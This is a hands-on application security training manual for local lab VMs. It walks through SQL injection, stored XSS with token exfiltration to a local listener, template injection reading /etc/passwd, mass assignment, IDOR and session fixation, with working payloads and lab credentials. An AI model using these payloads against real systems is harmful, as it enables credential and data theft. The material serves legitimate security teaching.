






# Application Security Training

## Understanding the Lab Environment 
### Basic Instructions
- You will need to use the root username and password whenever you need to authenticate to the computer. Username: **root**, Password: **we45**. There's another user in the VM, with Username: **we45** and password: **we45**
- All the examples and code from the lab are yours to keep. 
- We have used multiple tools for the lab. We have only used Open Source tools as we are only allowed to use open source tools, due to commercial licensing restrictions. 
- We also have a number of vulnerable machines running in Docker Containers on this Virtual Machine. Some of these are available open source and some of them have been developed by us at we45 for our training workshops
- You will need to use the Linux Command line to run all of the exercises today. However, please don’t fret if you are not familiar with Linux. The commands to run everything have been documented in the exercise manual.
- **IMPORTANT: The Machine you have been given is only 1024MB RAM, please increase it to 2048MB or 4096MB depending on your computer's capacity by right clicking on the imported Machine, going to `System` and increasing the RAM to 2048 MB**

###Simple Commands
* To open a new Terminal Tab -> `Ctrl + Shift + T` (not Command for Mac)
* To open a new Terminal Window -> `Ctrl + Shift + N` (not Command for Mac)
* To copy and paste in the terminal -> `Ctrl + Shift + C/V`
* Use the Browser from the Desktop and not from the Top Bar Menu


### Security Instructions
* You will need to use the root username and password whenever you need to authenticate to the computer. Username: root, Password: we45
* All the examples and code from the lab are yours to keep. 
* We have used multiple tools for the lab. We have only used Open Source tools as we are only allowed to use open source tools, due to commercial licensing restrictions. 
* We also have a number of vulnerable machines running in Docker Containers on this Virtual Machine. Some of these are available open source and some of them have been developed by us at we45 for our training workshops
* You will need to use the Linux Command line to run all of the exercises today. However, please don’t fret if you are not familiar with Linux. The commands to run everything have been documented in the exercise manual. 

### Application Credentials
#### wecare
* Username: betty.ross@we45.com, password: `secdevops`
* Username: bruce.banner@we45.com, password: `secdevops`
* Username: steve.jobs@we45.com, password: `secdevops`

#### Cut the Funds NodeJS App
* Email: maya.williams@widget.co, password: `superman123`
* Email: dave.matthews@widget.co, password: `superman123`
* Email: amy.cho@widget.co, password: `ironman456`
* (Manager) Email: andy.roberts@widget.co, password: `spiderman`

#### Vulnerable Flask App
* Username: admin, password: `admin123`

## Cracking MD5 Hashes
- Open the **Terminal** on your Desktop
- Please navigate to `Downloads` directory withn command `cd /home/we45/Downloads/`
- Type the command: `john-the-ripper --format=raw-md5 md5_hashes.txt`
- Type the command: `john-the-ripper --format=raw-md5 md5_hashes.txt --show`

## SQL Injection 
### Pre-Processing
* Start the NodeJS Stack by running the following commands: 
	* Open up the Terminal
	* Command: `start_node.sh`
	* It will run a full stack deployment of a Front-end service, a Web Service and a Datbase. The Front-end service runs on port 5000, the Backend Web Service runs on port 3000. We will be using the Web Service (3000) for this exercise
	* Open the application `Insomnia` on your Desktop. This allows you to interact with the Web Service. Its an HTTP Client

### Exercise Instruction
In Insomnia, you should automatically be on the Cut the Funds Workspace. This is the list of requests and responses for the webservice. You'll be using this tool to interact with the API. In the sidebar, click on the "Login Manager" request



Execute the Request, by clicking "Send" in the main window


If you are successfully logged in, you should get an 200 Response with an Authorization Token. Copy that token and paste it in Mousepad/etc


Now in the sidebar, go to the SQLi Search Request. Ensure that you add the copied Authorization Token in Header Tab in the Request page



In the main page. you can change the search json attribute to any value you want. Search for something simple like a country for now. 


Now try forcing an error, by injecting a single quote in the search param. It should throw an error. If it does, you can be sure that the app you are testing is vulnerable to SQL Injection

`Chile'`


Now that we have established that SQL Injection is possible, let's start exploring SQL Injection Attacks against the application

	```
	India' UNION ALL SELECT null, (SELECT @@datadir)--  
	India' UNION ALL SELECT null, (SELECT @@version)-- 
	India' UNION ALL SELECT null, (SELECT user())-- 
	India' UNION ALL SELECT null, (SELECT database())--  
	India' UNION ALL SELECT null,(SELECT concat(user,':',authentication_string) from mysql.user LIMIT 1)-- 
	```
* Each of the above is an SQL Injection payload. Copy each payload and inject them in the search parameter by pasting the payload in the search field in the top right corner. Click the search button to execute the payload
* Observe the results

### Vulnerable Code - SQL Injection
* Open Terminal
* Command: `cd /home/we45/Downloads/sources/Cut-The-Funds-NodeJS`
* Command: `mousepad controllers/project.controller.js`
* Mousepad opens up
	* goto line 125 and look at the vulnerable SQL call


## Cross-Site Scripting - Persistent
## Pre-Processing
* Start the NodeJS Stack by running the following commands: 
	* Open up the Terminal
	* If you have already started Node, then you dont need to do the next step
	* Command: `start_node.sh`
	* It will run a full stack deployment of a Front-end service, a Web Service and a Datbase. The Front-end service runs on port 5000, the Backend Web Service runs on port 3000. We will be using the Web Service (3000) for this exercise
	* Open the application `Insomnia` on your Desktop. This allows you to interact with the Web Service. Its an HTTP Client

### Exercise Instruction
First, we need to create an expense, and embed a cross site scripting payload in the one of the fields of the expense object.

1. For that, we need to login as user. In the sidebar you will find an option "Login User"


2. he request should already be filled out with user, Maya's email and password. You can just hit send on that requests


3. If you are successfully logged in, you should get an 200 Response with an Authorization Token. Copy that token and paste it in Mousepad/etc


4. Now in the sidebar, go to the `Create Expense` Request. Ensure that you add the copied Authorization Token in Header Tab in the Request page


5. In the JSON Tab, you can start making some edits to the JSON Payload. In the reason field, add the following payload to test for Cross-Site Scripting

`<svg onload=alert(localStorage.getItem('token'))></svg>`

Now, click Send. If all goes well, the expense should have been created in Maya william's account. 


Now open Firefox (Web Browser) from the Main Menu. Goto: `http://localhost:5000`

Login with Maya's email and password: `maya.williams@widget.co` and password: `superman123`

In the top bar, you should find "Manage Expenses". Click on that. Once you do, shortly, you should see that a JavaScript alert is fired at you with the Authorization Token of Maya's. This indicates that the attack has worked and the application is vulnerable to Cross Site Scripting

### Token Hijacking with Cross-Site Scripting
Let's repeat Steps 1 - 4 from the previous exercise. 

However, for Step 5 the XSS Payload will change to this: 

`<svg onload=\"var xhr = new XMLHttpRequest();xhr.open('GET', 'http://127.0.0.1:8000?token='+localStorage.getItem('token'), true);xhr.send();\"/>`

Before you open Firefox and repeat the steps from the previous exercise. Open up another terminal window and type the following command into it.

`python -m SimpleHTTPServer`

Leave this terminal open

Now repeat the steps from the Firefox Browser and observe the results. Once the page loads, go back to the terminal window to see if the token has been captured

## Nmap Basic Commands
- Open the **Terminal** on your Desktop
- Run the command `stop_all_containers.sh`
- Now run the command `start_node.sh`, which will start a new container
- Type the following command in the terminal and press ENTER to perform a default TCP scan on the localhost with IP 127.0.0.1 `nmap -sT 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a default UDP scan on the localhost IP with 127.0.0.1 `nmap -sU 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a TCP scan on a specific set of TCP Ports (1 - 65535)  on the localhost with IP 127.0.0.1 `nmap -sT -p1-65535 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform OS fingerprinting to identify the OS of the localhost with IP 127.0.0.1 `nmap -O 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a TCP SYN scan on the localhost with IP 127.0.0.1 `nmap -sS 127.0.0.1`
- Type the following command in the terminal and press ENTER to perform a default TCP scan with No Ping on the localhost with IP 127.0.0.1 `nmap -sT 127.0.0.1 -Pn`
- Type the following command in the terminal and press ENTER to perform a slow TCP scan, with traceroute on the localhost with IP 127.0.0.1 `nmap -sT 127.0.0.1 -Pn -T0 --traceroute`

## Nmap NSE Script - Scans
* Type the following command in the terminal and press ENTER to perform a discovery scan on the localhost with IP 127.0.0.1 `nmap -sC -p1-65535 127.0.0.1`
* Type the following command in the terminal and press ENTER to perform a vulnerability scan on the localhost with IP 127.0.0.1 `nmap --script vuln 127.0.0.1 -Pn`

## Server-Side Template Injection
* Open the **Terminal** on your Desktop
* Run the command `stop_all_containers.sh`
* Now run the command `start_flask.sh`, which will start a new container
* Open the Chrome Browser and navigate to a non-existent path: 
	* `http://localhost:5050/non_existent_path`
* Substitute the `non_existent_path` with one of the payloads below.
* Payloads: 
	* `{{ config.items() }}`
	* `{{''.__class__.mro()[2].__subclasses__()[40]('/etc/passwd').read()}}`

### Vulnerable Code - Template Injection
* Open Terminal
* Command: `cd /home/we45/Downloads/sources/Vulnerable-Flask-App`
* Command: `mousepad app/app.py`
* Mousepad opens up
	* goto line 101 and look for the vulnerable Template Call


## Insecure Direct Object Reference - Mass Assignment
### Pre-Processing
* Start the NodeJS Stack by running the following commands: 
	* Open up the Terminal
	* Command: `cd /home/we45/Desktop/`
	* Command: `start_node.sh`
	* It will run a full stack deployment of a Front-end service, a Web Service and a Datbase. The Front-end service runs on port 5000, the Backend Web Service runs on port 3000. 
* Open the application `OWASP` on your Desktop.
* Open Chrome from your Desktop
* Go to the FoxyProxy icon as you can see from here



* In **Select Mode**, choose OWASP ZAP and Close. This turns the icon Blue
* In the Chrome address bar, type "http://localhost:5000"
* Now, if you go back to the OWASP ZAP Window, it would have started capturing requests and responses from Localhost. 
 

### Exercise
* The objective of this attack is to get an expense approved, even without it being approved by a manager
* Let's Update an expense. 
* Login with Maya's email and password: `maya.williams@widget.co` and password: `superman123`. 
* In the top bar, you should find "Manage Expenses". Click on that. 
* You can add and update or only Update an existing expense, all the while the traffic is captured by OWASP ZAP
* Once this is done, go to OWASP ZAP and open up the following request from the side bar


Right click anywhere on the request pane, and select the following option: 



Tamper with the request and add another field to this with `"isApproved": true` as shown below



And click "Send" in the request editor

If everything has gone well, you can refresh the expense page in Chrome and you should see that the expense that you tampered with, has been approved



### Vulnerable Code - Insecure Direct Object Reference
* Open Terminal
* Command: `/home/we45/Downloads/sources/Cut-The-Funds-NodeJS`
* Command: `mousepad controllers/expense.controller.js`
* Mousepad opens up
	* goto line 149 and look for the Mass Assignment Vulnerability

## OWASP Dependency Check
* Open Terminal: Command: `cd /home/we45/Downloads/dependency-check/bin`
* Run Command: `./dependency-check.sh --project Hacmebooks --out . --scan /home/we45/Downloads/HacmeBooks/`
* Open the generated HTML report

## RetireJS
* Open Terminal: Command: `start_nowasp.sh`
* Open Chrome and goto `http://localhost`
* On the address bar, there's a RetireJS icon, next to FoxyProxy. Click on it to see vulnerabilities with JavaScript loaded in the DOM

## Insecure Direct Object Reference - AJAX
### Pre-Processing
* Open up terminal and run: `start_wecare.sh`
* Wait for a few seconds and open Chrome

### Lab
* Navigate to the we care vulnerable web application by browsing the URL http://localhost from a web browser. The web browser shortcut could be found on the desktop.
* Login to the application as Bruce Banner with the following credentials:
* Email: betty.ross@we45.com
* Password: secdevops
* Traverse to the following URL
* `http://localhost/record/add/`
* Open the Web Console by hitting Ctrl+Shift+K
* Firefox doesn't allow pasting to the console by default. So you need to type `allow pasting` without pressing a Return/Enter at the end
* Copy the following code and paste it in the web console

```
function update(jsn)
 {
    $.ajax({
      type: "POST",
      url: '/update/record/',
      data: {
       rid: jsn,
       remarks : 'Diabetes',
       csrfmiddlewaretoken: '',
           },
     success: function(data) {
           alert(data);
          },                
     error: function(xhr, textStatus, errorThrown) {
            alert("something went wrong");
            // alert(errorThrown)
          }
      });
 
 }

```
* Right click on the web browser and select View Page Source
* Copy the `csrfmiddlewaretoken` from the page source. (hit `ctrl+f` and enter `csrfmiddlewaretoken` as the search parameter. Copy the value)
* Paste the `csrfmiddlewaretoken` value within the single quotes in the 9th line of the payload given above
* Type `update(3);`
* Run the command by hitting Enter/return
* Upon running the payload web browser displays an alert Successfully updated test's Health Record
* Close the web console window
* Logout of the application
* Login to the application with the following credentials
* email: **steve.jobs@we45.com**
* password: **secdevops**
* Click on Health Record from the navigation panel on the left hand side
* Now click on Health Records from the drop down list and observe the remarks column. The remarks would be the string "injected by betty".

## Insecure Deserialization
* Open up a new terminal. Run the following commands: 
	* `stop_all_containers.sh`
	* `start_flask.sh`
* Now open up Chrome and goto: `http://localhost:5050/yaml`
* Here, upload a file from your `Downloads` directory called `test_expense.yml`
* Observe the results

### Vulnerable Code - Insecure Deserialization
* Open Terminal
* Command: `/home/we45/Downloads/sources/Vulnerable-Flask-App`
* Command: `mousepad app/app.py`
* Mousepad opens up
	* goto line 316 and look for the Insecure Deserialization Vulnerability

## Lynis - Audit System Security Settings
- Open the **Terminal** on your Desktop
- Run command `lynis audit system`
- Observe the results

## Insecure Cryptographic Storage
* Open up terminal and command: `cd /home/we45/Downloads/sources/Cut-The-Funds-NodeJS/controllers`
* Command: `mousepad user.controllers.js`
* Check out the function `createCard()` => Line 56

## Modes of Encryption
* Open up terminal and run: `start_wecare.sh`
* Wait for a few seconds and open Chrome
* now go to `http://localhost:9000/encrypt_modes/`
* enter some text and observe results

## Output Encoding/Escaping 
* Open up terminal and run: `start_wecare.sh`
* Wait for a few seconds and open Chrome
* now go to `http://localhost:9000/secure/encoding/`
* Click on Escaped and Unescaped Buttons

##Session Fixation
* Start wecare stack by running: `start_wecare.sh`
* Run Chrome and navigate to the login page `http://localhost:9000/login/`
* Login to the application as `bruce.banner@we45.com` with password `secdevops`
* In Chrome, click on the sidebar with the three dots: 
	* More Tools > Developer Tools > Application > Cookies
	* Copy the session ID into a file
* Log out of the application 
* In Chrome, click on the sidebar with the three dots: 
	* More Tools > Developer Tools > Application > Cookies
	* Paste the copied Cookie value 
* Force browse to `http://localhost:9000/dashboard/`


## Active Scanning with OWASP ZAP
### Pre-Processing
* Start the NodeJS Stack by running the following commands: 
	* Open up the Terminal
	* Command: `cd /home/we45/Desktop/`
	* Command: `start_node.sh`
	* It will run a full stack deployment of a Front-end service, a Web Service and a Datbase. The Front-end service runs on port 5000, the Backend Web Service runs on port 3000. 
* Open the application `OWASP` on your Desktop.
* Open Chrome from your Desktop
* Go to the FoxyProxy icon as you can see from here


* In **Select Mode**, choose OWASP ZAP and Close. This turns the icon Blue
* In the Chrome address bar, type "http://localhost:5000"
* Now, if you go back to the OWASP ZAP Window, it would have started capturing requests and responses from Localhost. 

### Exercise
* Once this is done, go to OWASP ZAP and right click on the host in the side bar
* Select Attack >> Active Scan and select Apply on the Dialog that appears and observe the results
